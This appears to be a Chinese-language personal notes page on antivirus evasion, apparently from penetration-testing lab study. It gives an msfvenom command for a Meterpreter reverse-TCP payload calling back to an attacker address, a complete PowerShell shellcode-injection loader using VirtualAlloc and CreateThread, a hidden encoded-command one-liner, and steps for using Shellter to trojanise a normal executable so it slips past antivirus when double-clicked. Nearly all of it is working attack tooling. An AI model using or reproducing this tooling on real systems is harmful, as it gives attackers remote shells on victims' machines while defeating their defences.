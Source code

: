 # PowerShell 内存注入

1. 编译powershell payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
```

2. ps脚本
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]] $sc = [第一步生成的payload放在这里，不包括中括号]

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

3. 传送到windows，执行

```
.\av_test.ps1
```

4. 一行powershell执行

> 4.1 用[这个](https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py)py脚本加密
> 4.2 执行 ```python2 ps_encoder.py -s av_test.ps1```
> 4.3 上面生成的加密字符串使用下面命令执行
```
powershell -nop -w hidden -encodedcommand [这里是base64加密字符串，不包括中括号]
```


# shellter

我理解就是把payload注入到正常的exe文件中

1. 安装
```
sudo apt install shellter
apt install wine
```

2. 运行
```
shellter
```

按提示加载需要注入payload 的exe程序，比如nc.exe
选择反弹的payload，比如Meterpreter
选择反弹的LHOST和LPORT

3. 把注入的exe文件传到靶机，双击执行，一般可以绕过反病毒软件

